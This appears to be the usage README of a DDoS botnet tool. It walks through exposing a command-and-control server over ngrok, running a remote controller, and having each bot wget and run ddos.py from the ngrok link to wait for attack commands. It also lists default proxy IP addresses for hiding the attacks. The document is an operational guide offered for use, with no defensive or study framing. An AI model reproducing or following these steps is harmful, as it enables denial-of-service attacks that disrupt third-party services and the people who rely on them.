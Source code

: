 # How to use

---
## Setup botnet remote (Main terminal)
``` bash
curl -sSL https://ngrok-agent.s3.amazonaws.com/ngrok.asc | sudo tee /etc/apt/trusted.gpg.d/ngrok.asc >/dev/null && echo "deb https://ngrok-agent.s3.amazonaws.com buster main" | sudo tee /etc/apt/sources.list.d/ngrok.list && sudo apt update && sudo apt install ngrok
ngrok ngrok config add-authtoken <token>
php -S 127.0.0.1:8080 | ngrok http 8080 # In DDoS-Humilfy directory
```
---
---
```bash
# On another session in main terminal
python3 remote.py
```
- Now, once you successfully run the remote program type this:
```bash
set-kkey
```
- And for the input:
``` python
KKey-cjs: https://<ngrok link>/command.json
KKey-cph: https://<ngrok link>/command.php
KKey-aph: https://<ngrok link>/accepted.php
```
---


---
## Setup botnet receiver (In another terminal/Botnet)
- You need another terminal for your botnet.
``` bash
wget https://<ngrok link>/ddos.py
python3 ddos.py --listener # Use --no-proxy if you want to launch non-proxied DDoS attack
```
---
---
## Input
``` python
[~] Command host: https://<ngrok link>/command.json
[~] Accept host: https://<ngrok link>/accepted.php
[+] Waiting for commands..
```
---

# Also, here is your default proxy:
---
``` notepad
128.199.254.13:9090
146.190.80.158:9090
23.237.210.82:80
```
- Save it in txt file in your main terminal
---
